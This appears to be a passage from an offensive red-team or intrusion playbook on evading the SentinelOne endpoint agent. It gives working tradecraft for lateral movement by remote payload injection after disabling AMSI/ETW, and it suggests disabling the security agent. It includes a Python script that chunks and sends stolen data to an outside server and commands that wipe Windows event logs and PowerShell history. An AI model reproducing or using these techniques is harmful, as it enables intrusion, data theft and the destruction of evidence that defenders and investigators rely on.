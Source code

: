 •	Lateral Movement (with OPSEC): Using the credentials obtained, move to other hosts:
o	If possible, use living-off-the-land methods here too. For example, use WMI Exec or WinRM (PowerShell Remoting) to execute your payload on remote hosts. Since you have a fileless or memory-only approach, you can remotely inject a payload via PowerShell Remoting:
```
Invoke-Command -ComputerName TARGET -ScriptBlock {
   # Inside remote session: re-do some evasion (disable AMSI, etc.)
   # ... then reflectively load beacon or run shellcode ...
}
```
Make sure to again disable AMSI/ETW on the remote side before injecting your payload.
o	Or use a PsExec-style method (create a remote service that runs your code). If you do this, consider using Impacket’s psexec.py or similar, which can operate purely in memory on the target.
o	If RDP is available and you have credentials, you could RDP to a machine and operate through the GUI (though SentinelOne is still on those machines, so you’d need to apply similar evasion there).
o	For each new host compromised, repeat the essential steps: unhook in that process, patch ETW, then proceed with post-ex actions. You can script/automate this by bundling the evasion steps into the payload that you deploy on each host (e.g., have your beacon run an unhooking routine as soon as it starts on a new host).

o	In some cases, prior to lateral movement you might choose to deploy a small script or tool to disable SentinelOne on the target (if you have admin creds and know the procedure to unload the agent), then proceed with malware deployment. This carries risk but ensures the target won’t block your payload.

•	Data Collection & Exfiltration: Quietly gather target data and exfiltrate (if that’s within scope):
o	Use native tools to collect files (e.g. robocopy to copy directories) but do it slowly and maybe throttle CPU usage to avoid making SentinelOne suspicious about a process suddenly reading hundreds of files.

o	Stage collected data in an encrypted archive as discussed in Section 7 (e.g., create a password-protected 7z or use openssl to encrypt data).
o	Exfiltrate via your chosen stealth channel (DNS, HTTPS, etc.). For instance, you could use a Python snippet on the host (or via your C2) to chunk and send data over HTTP GET requests:
```
import base64, requests
data = open("loot.zip","rb").read()
blob = base64.b64encode(data).decode()
# split blob into manageable chunks
chunks = [blob[i:i+500] for i in range(0, len(blob), 500)]
for part in chunks:
    requests.get("https://myserver.com/exfil", params={"data": part})
```
On your server side, you’d reassemble the base64 parts. This HTTP pattern looks like normal web API traffic but is slowly leaking data.
o	Alternatively, if feasible, upload data to an approved cloud service (OneDrive, Dropbox, Google Drive) using their APIs or CLI tools – this often flies under the radar entirely because it appears as normal user behavior.

•	Covering Tracks: Before wrapping up on a host:
o	Delete any dumped files or archives you created (using secure deletion if possible). At least do a normal delete, then consider wiping free space or overwriting the file to prevent easy recovery.
o	Clear command history: if you used an interactive PowerShell session, clear the PowerShell history (Remove-Item (Get-PSReadLineOption).HistorySavePath). If on Linux (for whatever reason), clear .bash_history.
o	Clear Windows Event Logs that contain your activity, if feasible. For example:
```
wevtutil clear-log Security
```
```
wevtutil clear-log Microsoft-Windows-PowerShell/Operational
```
Be aware that clearing logs can itself generate an event or alert (and missing logs may raise suspicion). Use your judgment – sometimes it’s better to leave benign-looking logs in place.